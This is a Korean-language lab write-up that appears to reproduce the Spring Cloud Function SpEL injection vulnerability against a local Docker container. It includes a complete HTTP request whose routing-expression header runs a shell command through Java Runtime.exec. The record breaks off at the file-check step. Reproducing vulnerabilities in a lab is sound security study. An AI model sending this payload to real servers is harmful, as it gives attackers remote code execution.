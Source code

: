 
---

<br><br>

## 🧪 **취약점 재현**

### 1. **스프링 서버 정상 실행 확인**

도커 컨테이너 실행 후 아래와 같은 기본 페이지가 나타나면 **정상적으로 서버가 열린 것**이다.

<p align="center">
  <img src="./2.png" alt="스프링 웹서버 기본 화면" width="700"/>
</p>


### 2. **SpEL 삽입을 통한 명령어 실행**

요청 헤더에 `spring.cloud.function.routing-expression` 값을 통해 **SpEL 표현식을 삽입**하고,  
대상 서버에서 `touch /tmp/success` **명령어를 실행**한다.

- 파이썬 코드로 전송 (`vulhub.py` 참고)  
- 성공 시 `/tmp` 디렉토리에 `success` 파일이 생성됨

```http
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

### 3. **success 파일 존재 확인**
